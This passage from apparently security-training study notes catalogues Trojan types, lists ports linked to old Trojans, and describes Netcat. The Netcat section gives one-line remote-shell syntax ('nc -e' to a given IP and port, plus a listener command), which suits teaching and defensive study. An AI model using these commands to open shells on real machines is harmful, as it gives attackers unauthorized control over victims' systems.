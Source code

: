   - **Point-of-Sale Trojans**
    -  financial fraudulent malware that target POS and payment equipment such as credit card/debit card readers.
  - **Defacement Trojans**
    - can destroy or change the entire content of a database.
  - **Service Protocol Trojans**
    - VNC Trojan
    - HTTP/HTTPS Trojan
    - SHTTPD
    - HTTP RAT
    - ICMP Trojans
  - **Mobile Trojans**
  - **IOT Trojans**
    - malicious programs that attack IoT networks.
    - These Trojans leverage a botnet to attack other machines outside the IoT network.
  - **Security Software Disabler Trojans**
    - stop the working of security programs such as firewalls, and IDS, either by disabling them or killing the processes
    - entry Trojans, which allow the attacker to perform the next level of attack.
  - **Destructive Trojans**: delete files on the victim machine.
  - **DDOS Attack Trojans**:
    - These Trojans are intended to perform DDoS attacks on target machines, networks, or web addresses.
    - Mirai
  - **Command Shell Trojans**
    - A Trojan server is installed on the victim's machine, which opens a port, allowing the attacker to connect.
 
- **Covert Channel Tunneling Trojan** (CCTT) - a RAT trojan; creates data transfer channels in previously authorized data streams
- **Netcat**
  - "Swiss army knife" of tcp/ip hacking
  - Provides all sorts of control over a remote shell on a target
  - Connects via **nc -e IPaddress Port#**
  - From attack machine **nc -l -p 5555** opens a listening port on 5555
  - Can connect over TCP or UDP, from any port
  - Offers DNS forwarding, port mapping and forwarding and proxying
- **Trojan Port Numbers**

| Trojan Name        | Port   |
|--------------------|--------|
| Death              | 2      |
| Senna Spy          | 20     |
| Hackers Paradise   | 31,456 |
| TCP Wrappers       | 421    |
| Doom, Santaz Back  | 666    |
| Silencer, WebEx    | 1001   |
| RAT                | 1095-98|
| SubSeven           | 1243   |
| Shiva-Burka        | 1600   |
| Trojan Cow         | 2001   |
| Deep Throat        | 6670-71|
| Tini               | 7777   |
| NetBus             | 12345-6|
| Whack a Mole       | 12361-3|